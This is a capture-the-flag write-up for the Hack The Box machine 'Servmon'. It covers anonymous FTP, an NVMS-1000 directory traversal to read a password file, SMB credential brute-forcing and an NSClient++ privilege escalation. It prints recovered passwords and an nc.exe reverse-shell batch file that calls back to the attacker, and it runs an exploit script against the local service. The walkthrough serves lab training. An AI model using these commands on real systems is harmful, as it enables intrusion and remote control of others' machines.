 # Servmon

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.77
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 01:44 EDT
Nmap scan report for 10.129.227.77
Host is up (0.0077s latency).
Not shown: 65518 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5666/tcp  open  nrpe
6063/tcp  open  x11
6699/tcp  open  napster
8443/tcp  open  https-alt
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Loads of ports. This is an easy and old machine, so it shouldn't be too complex.

### Anonymous FTP

When I see FTP, the first thing I check for is anomymous logins. This works for this machine

```
$ ftp 10.129.227.77      
Connected to 10.129.227.77.
220 Microsoft FTP Service
Name (10.129.227.77:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49677|)
125 Data connection already open; Transfer starting.
02-28-22  07:35PM       <DIR>          Users
```

We can find 2 files, one `Confidential.txt` and a `Notes to do.txt`. Reading the confidential one highlights that there is a password file somewhere:

{% code overflow="wrap" %}
```
$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```
{% endcode %}

Great!&#x20;

### LFI

On port 80 and port 8443, there are HTTP and HTTPS sites presents respectively. Looking at port 80, we see this is running NVMS-1000:

<figure><img src="../../../.gitbook/assets/image (52) (5).png" alt=""><figcaption></figcaption></figure>

There are public exploits for these:

```
$ searchsploit nvms                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NVMS 1000 - Directory Traversal                             | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modific | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow          | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                         | hardware/webapps/48311.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Following the PoC, we can see it works:

<figure><img src="../../../.gitbook/assets/image (47) (6).png" alt=""><figcaption></figcaption></figure>

Great! Now, we can read the `password.txt` file that we found hints of earlier. Here are the passwords retrieved:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

With this, we can run a `crackmapexec` to brute force the possible passwords.&#x20;

```
./cme smb 10.129.227.77 -u /home/kali/htb/servmon/users -p /home/kali/htb/servmon/passwords
SMB         10.129.227.77   445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
```

This would find that the credentials of `nadine:L1k3B1gBut7s@W0rk` is the right one. With these credentials, we can SSH into the machine as the `nmap` scan found earlier showed port 22 was open.

<figure><img src="../../../.gitbook/assets/image (49) (3).png" alt=""><figcaption></figcaption></figure>

Then grab the user flag.

## Privilege Escalation

### NSClient++ Privilege Escalation

Earlier, I mentioned that port 8443 was running a HTTPS site and we have not enumerated it yet. This port had NSClient++ running on it:

<figure><img src="../../../.gitbook/assets/image (54) (3).png" alt=""><figcaption></figcaption></figure>

None of the functions work. Searching for public exploits works however:

```
$ searchsploit nsclient                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution   | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                  | windows/local/46802.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The Privilege Escalation is the one I need now. Following the PoC, we first need to grab the administrator password:

```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

Then we need to download `nc.exe` to the machine and a `.bat` file that executes a reverse shell

```batch
@echo off
c:\Windows\Tasks\nc.exe 10.10.14.2 4444 -e cmd.exe
```

Then we need to login, but for some reason the application is blocking me. When we check the `nsclient.ini` configuration file, we see that it only allows `localhost` to access the services:

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
ï»¿# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

So we need to do some port forwarding using `ssh`.&#x20;

```
ssh nadine@10.129.227.77 -L 8443:127.0.0.1:8443
```

Then we can access the site and continue.&#x20;

<figure><img src="../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

Login using the administrator password we found earlier. There are automated PoCs for this:

{% embed url="https://packetstormsecurity.com/files/157306/NSClient-0.5.2.35-Authenticated-Remote-Code-Execution.html" %}

We can run it like so after downloading the relevant files onto the machine:

```bash
python3 pe.py -t 127.0.0.1 -P 8443 -p 'ew2x6SsGTxjRwXOT' -c "c:\Windows\Tasks\evil.bat"
```

<figure><img src="../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

Rooted!
